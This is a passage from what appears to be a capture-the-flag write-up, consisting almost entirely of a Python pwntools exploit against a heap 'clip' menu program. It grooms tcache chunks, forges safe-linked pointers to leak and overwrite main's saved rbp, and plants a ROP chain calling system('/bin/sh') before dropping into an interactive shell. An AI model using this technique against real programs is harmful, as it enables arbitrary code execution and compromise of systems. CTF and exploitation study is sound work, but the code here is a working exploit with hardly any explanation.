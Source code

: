 ```python
    add_clip(i, 0x40, b'A')

for i in range(7):
    del_clip(6-i)

for i in range(7):
    add_clip(i, 0x30, b'A')

for i in range(7):
    del_clip(i)

add_clip(0, 0x70, b'A')
add_clip(1, 0x70, b'A')
add_clip(2, 0x70, b'A')
add_clip(3, 0x70, b'A')
add_clip(4, 0x10, b'A')
add_clip(5, 0x10, b'A')

for i in range(6):
    del_clip(5-i)

#get main's rbp addr
add_clip(9, 0x80, b'A')
add_clip(0, 0x80, b'A'*0x68 + b'\x11\x01')
add_clip(1, 0x80, b'A')
add_clip(2, 0x80, b'A')
add_clip(3, 0x100, b'A')
add_clip(-7, 0x10, b'A')
del_clip(3)
del_clip(9)
del_clip(0)
add_clip(0, 0x80, b'A'*0x68 + b'\x11\x01'+b'\x00'*6 + p64(((heap_base + 0x1000)>>12)^(libc_base+0x21ba10)))
add_clip(3, 0x100, b'A'*0x10)
add_clip(4, 0x100, b'A'*0x10)
view_clip(4)
r.recvuntil(b'A'*0x10)
rbp_addr = u64(r.recvn(6) + b'\x00'*2) - 0x118
print(hex(rbp_addr))

#overwrite rbp
del_clip(0)
add_clip(9, 0x80, b'A')
add_clip(-7, 0x10, b'A')
add_clip(5, 0x100, b'A')
del_clip(1)
add_clip(1, 0x80, b'A'*0x68 + b'\x11\x01')
del_clip(5)
del_clip(9)
del_clip(1)
add_clip(1, 0x80, b'A'*0x68 + b'\x11\x01'+b'\x00'*6 + p64(((heap_base + 0x1000)>>12)^(rbp_addr)))
add_clip(0, 0x100, b'/bin/sh\x00')
pop_rdi = libc_base + 0x2a3e5
binsh = heap_base + 0x1190
system = libc_base + 0x50d70
ret = libc_base + 0x29139
add_clip(5, 0x100, b'A'*0x8 + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system))

# do return 0
r.sendafter(b'> ', b'4')

r.interactive()
```